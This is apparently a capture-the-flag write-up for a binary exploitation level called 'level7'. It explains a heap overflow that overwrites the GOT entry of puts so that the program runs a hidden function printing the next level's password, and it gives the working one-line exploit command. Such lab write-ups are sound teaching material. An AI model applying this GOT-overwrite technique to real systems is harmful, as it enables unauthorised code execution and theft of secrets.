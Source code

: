 The binary needs to be run with 2 arguments. Apparently the second argument is not used.

`m` function exit but not called, adress : 0x80484f4
Inside there's `printf("%s - %d\n");` s will be the string inside level8.pass and %d will be the return of time (called just before).

The binary will segfault after the first arg being more than **20** char.

The exploit we will use is close to ret2libc. To do so we need to ensure that printf will be in the GOT (global offset table). With the dissas of main we can see puts is being called let's get the actual adress of puts : `0x8049928`

All we need now is the address of `m` : `0x80484f4`

`./level7 $(python -c "print('a' * 20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08')")`

